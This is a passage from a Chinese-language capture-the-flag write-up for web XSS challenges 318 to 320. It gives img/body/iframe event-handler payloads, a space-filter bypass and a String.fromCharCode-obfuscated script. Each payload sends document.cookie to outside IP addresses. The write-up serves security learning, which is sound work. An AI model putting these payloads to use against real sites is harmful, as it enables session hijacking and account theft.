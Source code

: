 ```
<img src="" οnerrοr=location.href="http://60.204.158.87/123/2.php?cookie="+document.cookie>
```



### web-318

我们试试script和img标签，都没有回显

而我们输入`<body>alert(1)</body>`有回显

![image-20250422210717305](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504222107410.png)

```
<body οnlοad=location.href="http://60.204.158.87/123/2.php?cookie="+document.cookie>
<body onload="document.location.href='http://60.204.158.87/123/2.php?cookie='+document.cookie"></body>
<body onload="document.location.href='http://60.204.158.87/123/2.php?cookie='+document.cookie">
<iframe οnlοad=document.location='http://60.204.158.87/123/2.php?cookie='+document.cookie>
```



### web-319 

同318



### web-320

经过测试，他过滤了空格，script，img

xss中空格可以用%09,/**/,/,tab代替

```
<body/**/οnlοad=location.href="http://60.204.158.87/123/2.php?cookie="+document.cookie>
```

扩展：String.formCharCode函数

他可以将ascii码转字符

String.fromCharCode(111,110,108,111,97,100); 控制台运行结果如下：

![image-20250422214141614](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504222141737.png)

用它可以构造一个payload

```
<body/**/οnlοad=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,58,47,47,49,50,48,46,52,54,46,52,49,46,49,55,51,47,74,97,121,49,55,47,49,50,55,46,112,104,112,63,99,111,111,107,105,101,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,60,47,115,99,114,105,112,116,62));>

```

```
String.fromCharCode(***)`就是`<script>document.location.href='http://120.46.41.173/Jay17/127.php?cookie='+document.cookie</script>
```
